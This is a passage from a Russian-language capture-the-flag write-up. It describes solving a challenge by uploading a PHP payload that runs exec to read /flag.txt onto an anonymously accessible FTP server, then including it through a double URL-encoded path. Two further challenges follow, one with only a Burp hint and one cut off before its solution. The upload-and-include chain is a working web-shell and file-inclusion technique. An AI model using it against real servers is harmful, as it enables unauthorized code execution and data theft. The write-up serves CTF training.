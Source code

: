 1) Создаем файл-нагрузку `shell` на php:

```
<?php 
echo exec('cat /flag.txt'); 
?>
```

2) Через `Anonymous` грузим нагрузку на ftp сервер.

```
ftp
ftp> open 100.64.1.142
ftp> Anonymous
ftp> Anonymous
ftp> cd pub
ftp> put shell
```


3) Инклуд нагрузки через двойной url-encode:

```
/srv/ftp/pub/shell
```

```
/%25%32%66%25%37%33%25%37%32%25%37%36%25%32%66%25%36%36%25%37%34%25%37%30%25%32%66%25%37%30%25%37%35%25%36%32%25%32%66%25%37%33%25%36%38%25%36%35%25%36%63%25%36%63
```


## Сервер управления - 1000 баллов

`http://100.64.X.189`

### Description

### Hint

### Writeup

1) Решать через BURP.



## Преобразование данных - 500 баллов

`IP:100.64.X.159:3000`

### Description

На данном сайте противник конвертирует полученные от разведки html-страницы в pdf-файлы для доклада командованию.
Необходимо получить доступ до сервера-конвертора.

### Hint
